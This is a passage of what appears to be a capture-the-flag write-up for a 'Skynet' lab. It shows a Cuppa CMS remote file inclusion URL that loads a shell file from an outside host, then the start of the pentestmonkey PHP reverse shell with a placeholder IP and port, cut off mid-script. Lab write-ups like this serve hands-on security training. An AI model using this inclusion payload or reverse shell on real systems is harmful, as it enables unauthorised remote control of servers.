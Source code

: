 And we got another directory, an administrator page.

![Untitled](Skynet%20c2176ba8d5aa4c6dbbc98874be4822d3/Untitled%202.png)

After trying some password I decided to searcxh internet for exploits.

![Untitled](Skynet%20c2176ba8d5aa4c6dbbc98874be4822d3/Untitled%203.png)

I came accross this, a remote file ionclusion vuln.

I tested it out and it works.

![Untitled](Skynet%20c2176ba8d5aa4c6dbbc98874be4822d3/Untitled%204.png)

Unfortunately with this method we can’t also get the shadow.

So I tried another FLI listed in here:

`http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?`

For this to work, I first need to generate a reverse shell:

```bash
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = 'your_ip';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
```